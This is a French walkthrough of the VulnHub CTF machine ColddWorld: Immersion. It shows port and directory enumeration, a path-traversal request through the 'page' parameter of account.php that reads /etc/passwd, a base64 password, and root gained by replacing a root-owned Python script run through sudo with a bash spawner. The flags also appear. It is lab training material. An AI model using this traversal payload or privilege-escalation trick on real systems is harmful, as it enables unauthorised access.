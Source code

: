 # Solution du CTF ColddWorld: Immersion de VulnHub

[ColddWorld: Immersion](https://vulnhub.com/entry/colddworld-immersion,668/) est un CTF proposé sur la plateforme VulnHub et créé par *Martin Frias* (Aka. *C0ldd*)

```
Nmap scan report for 192.168.56.108
Host is up (0.000098s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Immersion
|_http-server-header: Apache/2.4.18 (Ubuntu)
3042/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c7439b1ec2a8276bc2bc58a94d6d4e14 (RSA)
|   256 6099c287ea6a1475e1b46f934f9bfd89 (ECDSA)
|_  256 7fb24af2ecdba58745922f132e5e74bd (ED25519
```

On a donc un serveur web et un SSH sur un port non standard.

## Oreilles de lapin

Le site web ne donnant rien d'intéressant on passe direct sur `Feroxbuster` pour une énumération :

```shellsession
$ feroxbuster -u http://192.168.56.108/ -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt -n

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.4.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.56.108/
 🚀  Threads               │ 50
 📖  Wordlist              │ fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.4.0
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      317c http://192.168.56.108/secure
301        9l       28w      313c http://192.168.56.108/wp
301        9l       28w      313c http://192.168.56.108/js
301        9l       28w      314c http://192.168.56.108/css
301        9l       28w      316c http://192.168.56.108/login
403        9l       28w      279c http://192.168.56.108/server-status
200       17l       27w      401c http://192.168.56.108/
[####################] - 17s    62260/62260   0s      found:7       errors:0      
[####################] - 17s    62260/62260   3661/s  http://192.168.56.108/
```

Dans la page de login on trouve en commentaire HTML le message suivant :

> Hi Carls,
> 
> if you read this, I have gone on a trip, let me tell you, after the last attack we received (thanks to your inactivity as a web developer) we had to make password changes,
> 
> but since he doesn't use a mobile phone or home computers (a bit weird since you are a web developer),
> 
> I left clues on the "page" for you to find your password, I know it will be easy because you are good for detecting security flaws (or so I thought before the attack :D),
> 
> I leave your password in a file called carls.txt that is inside /var, when you get it, log in and finish your work by preparing my bash.
> 
> Greetings, c0ldd.

Assez étonnant, on doit visiblement trouver une faille qui permettra l'accès à un fichier présent dans le dossier `/var` de la machine.

L'autre point à éclaircir c'est la présence de soit disant indices dans la "page", comme ils disent entre guillemets...

`page` est un nom de variable connu pour être potentiellement vulnérable à des directory traversal.

Je rassemble la liste des URLs trouvées jusqu'à présent et j'y rajoute un paramètre `page`. Je met le tout dans un fichier `pages.txt` :

```
http://192.168.56.108/?page=hackme
http://192.168.56.108/login/?page=hackme
http://192.168.56.108/login/account.php?page=hackme
http://192.168.56.108/wp/?page=hackme
http://192.168.56.108/secure/?page=hackme
```

Puis je le fait charger par `Wapiti` via l'option `-s` :

```shellsession
$ wapiti -u http://192.168.56.108/ -s pages.txt --color -m file --flush-session
ujson module not found, using json

 ██╗    ██╗ █████╗ ██████╗ ██╗████████╗██╗██████╗
 ██║    ██║██╔══██╗██╔══██╗██║╚══██╔══╝██║╚════██╗
 ██║ █╗ ██║███████║██████╔╝██║   ██║   ██║ █████╔╝
 ██║███╗██║██╔══██║██╔═══╝ ██║   ██║   ██║ ╚═══██╗
 ╚███╔███╔╝██║  ██║██║     ██║   ██║   ██║██████╔╝
  ╚══╝╚══╝ ╚═╝  ╚═╝╚═╝     ╚═╝   ╚═╝   ╚═╝╚═════╝  
Wapiti 3.1.6 (wapiti-scanner.github.io)
[*] Saving scan state, please wait...

[*] Launching module file
---
Linux local file disclosure vulnerability in http://192.168.56.108/login/account.php via injection in the parameter page
Evil request:
    GET /login/account.php?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
    host: 192.168.56.108
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
---

[*] Generating report...
A report has been generated in the file /home/devloop/.wapiti/generated_report
Open /home/devloop/.wapiti/generated_report/192.168.56.108_02172023_1501.html with a browser to see this report.
```

Effectivement la page `account.php` (qui est la cible du formulaire de login) est bien vulnérable.

Je note la présence de ces deux utilisateurs dans le `/etc/passwd` :

```
c0ldd:x:1000:1000:c0ldd,,,:/home/c0ldd:/bin/bash
carls:x:1001:1001:,,,:/home/carls:/bin/bash
```

Et on peut accéder au fichier qui contient le mot de passe :

```
carls:Y2FybG9z
```

Le mot de passe est en base64 et se décode en `carlos`.

## So c0ldd streams

```shellsession
carls@Immersion:/home$ sudo -l
[sudo] password for carls: 
Coincidiendo entradas por defecto para carls en Immersion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario carls puede ejecutar los siguientes comandos en Immersion:
    (c0ldd : c0ldd) /bin/bash
```

Comme indiqué dans le message on peut *regarder* le bash de `c0ldd`.

```shellsession
carls@Immersion:/home$ sudo -u c0ldd /bin/bash
c0ldd@Immersion:/home$ id
uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd)
c0ldd@Immersion:~$ cd ~c0ldd/
c0ldd@Immersion:/home/c0ldd$ ls -al
total 40
drwxr-x--- 4 c0ldd c0ldd 4096 mar 17  2021 .
drwxr-xr-x 4 root  root  4096 mar 17  2021 ..
-rw------- 1 c0ldd c0ldd    6 mar 17  2021 .bash_history
-rw-r--r-- 1 c0ldd c0ldd  220 mar 17  2021 .bash_logout
-rw-r--r-- 1 c0ldd c0ldd 3771 mar 17  2021 .bashrc
drwx------ 2 c0ldd c0ldd 4096 mar 17  2021 .cache
-rw-r--r-- 1 root  root    33 mar 17  2021 DoNotRun.py
drwxrwxr-x 2 c0ldd c0ldd 4096 mar 17  2021 .nano
-rw-r--r-- 1 c0ldd c0ldd  655 mar 17  2021 .profile
-rw-r--r-- 1 c0ldd c0ldd    0 mar 17  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 c0ldd c0ldd   25 mar 17  2021 user.txt
c0ldd@Immersion:/home/c0ldd$ cat user.txt 
TXV5IGJpZW4gaGVjaG8gOik=
c0ldd@Immersion:/home/c0ldd$ sudo -l
Coincidiendo entradas por defecto para c0ldd en Immersion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en Immersion:
    (root) NOPASSWD: /usr/bin/python3 /home/c0ldd/DoNotRun.py
```

Cet utilisateur peut exécuter un script Python avec les droits de root... mais le fichier appartient à root et on ne dispose pas de droits pour le modifier... pourtant :

```shellsession
c0ldd@Immersion:/home/c0ldd$ echo test > DoNotRun.py
bash: DoNotRun.py: Permiso denegado
c0ldd@Immersion:/home/c0ldd$ rm DoNotRun.py
rm: ¿borrar el fichero regular 'DoNotRun.py'  protegido contra escritura? (s/n) y
c0ldd@Immersion:/home/c0ldd$ ls
startup.py  user.txt
```

Je me suis entretenu avec `ChatGPT` qui était bien à l'ouest pour expliquer ce qu'il se passait, pour lui c'était objectivement impossible.

Si on fouille un peu il semble que ce soit une histoire d'inode, peut être même relatif au système de fichier utilisé (?).

Mais pour résumer dans ces situations on peut supprimer ou renomer, voire déplacer le fichier un sous-dossier sans qu'il change d'owner. Voici deux pages traitant du sujet :

[linux - How to delete a file owned by different user using a bash script? - Super User](https://superuser.com/questions/1497782/how-to-delete-a-file-owned-by-different-user-using-a-bash-script)

[linux - Why was I able to delete a file owned by root in my home directory without being root? - Server Fault](https://serverfault.com/questions/726907/why-was-i-able-to-delete-a-file-owned-by-root-in-my-home-directory-without-being)

Du coup il ne reste plus qu'à créer le script Python que l'on souhaite :

```shellsession
c0ldd@Immersion:/home/c0ldd$ echo 'import os;os.system("/bin/bash -p")' > DoNotRun.py 
c0ldd@Immersion:/home/c0ldd$ sudo /usr/bin/python3 /home/c0ldd/DoNotRun.py
root@Immersion:/home/c0ldd# id
uid=0(root) gid=0(root) grupos=0(root)
root@Immersion:/home/c0ldd# cd /root
root@Immersion:/root# ls
root.txt
root@Immersion:/root# cat root.txt
RmVsaWNpZGFkZXMgY3JhY2s=
```

*Publié le 17 février 2023*
